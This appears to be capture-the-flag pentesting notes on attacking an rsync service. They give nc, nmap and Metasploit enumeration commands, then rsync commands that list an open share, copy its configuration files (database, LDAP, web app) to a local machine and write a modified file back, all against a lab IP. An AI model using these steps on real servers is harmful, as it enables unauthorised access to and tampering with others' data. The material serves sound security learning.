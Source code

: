 
**rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping_(computing))and sizes of files. It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data_compression), and [SSH](https://en.wikipedia.org/wiki/Secure_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

---

# Enumeration
## Manual
```bash
jagelito ~$ nc -vn 10.10.170.253 873
(UNKNOWN) [10.10.170.253] 873 (rsync) open
@RSYNCD: 31.0				# VERSION FROM THE SERVER
@RSYNCD: 31.0				# THEN YOU SEND THE SAME INFO
#list						# THEN YOU ASK THE SERVER TO LIST
Conf            All Confs	# SHARES
@RSYNCD: EXIT				# SERVER CLOSE CONNECTION
```

## Nmap
```bash
$ nmap -sC --script "rsync-list-modules" -p873 10.10.170.253
PORT    STATE SERVICE
873/tcp open  rsync
| rsync-list-modules: 
|_  Conf                All Confs
```

## MSF
```bash
msf> use auxiliary/scanner/rsync/modules_list
```

# List Shares

## rsync
Enumerate all shares
```bash
$ rsync -av --list-only rsync://10.10.170.253/Conf
receiving incremental file list
drwxrwxrwx          4,096 2021/04/10 22:03:08 .
-rw-r--r--          4,620 2021/04/09 22:01:22 access.conf
-rw-r--r--          1,341 2021/04/09 21:56:12 bluezone.ini
-rw-r--r--          2,969 2021/04/09 22:02:24 debconf.conf
-rw-r--r--            332 2021/04/09 22:01:38 ldap.conf
-rw-r--r--         94,404 2021/04/09 22:21:57 lvm.conf
-rw-r--r--          9,005 2021/04/09 21:58:40 mysql.ini
-rw-r--r--         70,207 2021/04/09 21:56:56 php.ini
-rw-r--r--            320 2021/04/09 22:03:16 ports.conf
-rw-r--r--            589 2021/04/09 22:01:07 resolv.conf
-rw-r--r--             29 2021/04/09 22:02:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/09 22:00:59 smb.conf
-rw-rw-r--             72 2021/04/10 22:03:06 webapp.ini
```

Copy shares to local machine
```bash
$ rsync -av rsync://10.10.170.253/Conf ./rsync_share
receiving incremental file list
created directory ./rsync_share
./
access.conf
bluezone.ini
debconf.conf
ldap.conf
lvm.conf
mysql.ini
php.ini
ports.conf
resolv.conf
screen-cleanup.conf
smb.conf
webapp.ini
```


# Transfer files
```bash
jagelito ~$ rsync -av /home/jagelito/Ctf/thm/meta/content/rsync/rsync_shares/webapp.ini rsync://10.10.170.253/Conf/webapp.ini
sending incremental file list
webapp.ini

sent 187 bytes  received 41 bytes  456.00 bytes/sec
total size is 71  speedup is 0.31
```










## Resources
* https://book.hacktricks.xyz/pentesting/873-pentesting-rsync